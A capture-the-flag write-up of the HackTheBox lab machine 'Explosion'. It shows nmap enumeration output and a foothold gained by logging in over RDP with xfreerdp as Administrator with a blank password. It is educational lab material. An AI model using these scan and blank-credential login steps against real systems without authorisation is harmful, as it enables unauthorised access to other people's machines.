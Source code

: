 ```yaml
---
title: "HackTheBox - Explosion"
author: Nasrallah
description: ""
date: 2022-06-15 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, windows, easy, rdp]
img_path: /assets/img/hackthebox/machines/explosion
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello l33ts, I hope you are doing well. Today we are going to look at [Explosion](https://app.hackthebox.com/starting-point?tier=0) from [HackTheBox](https://www.hackthebox.com).

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.129.190.225 (10.129.190.225)        
Host is up (0.29s latency).
Not shown: 996 closed tcp ports (reset)                 
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: EXPLOSION
|   NetBIOS_Domain_Name: EXPLOSION
|   NetBIOS_Computer_Name: EXPLOSION
|   DNS_Domain_Name: Explosion
|   DNS_Computer_Name: Explosion
|   Product_Version: 10.0.17763
|_  System_Time: 2022-07-22T10:55:03+00:00
| ssl-cert: Subject: commonName=Explosion
| Not valid before: 2022-07-21T10:33:19 
|_Not valid after:  2023-01-20T10:33:19 
|_ssl-date: 2022-07-22T10:55:11+00:00; -1s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-07-22T10:55:06
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
```

We see that we are dealing with a windows machine running smb and RDP on port 3389.

# **Foothold**

Let's try to connect to RDP using `xfreerdp`.

The script need some switches for it to try to connect to the target.

 - /u:{username} : Specifies the login username.
 - /v:{target_IP} : Specifies the target IP of the host we would like to connect to.

We will be login as user **Administrator** and submit a blank.

`xfreerdp /v:10.129.190.225 /u:Administrator`

![](1.png)

Wait a little bit and we get a GUI access to the target as Administrator.

![](2.png)

For better access, use the following command `xfreerdp /v:10.129.190.225 /u:Administrator /dynamic-resolution +clipboard`. This will allow us to us clipboard and resize the pane.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).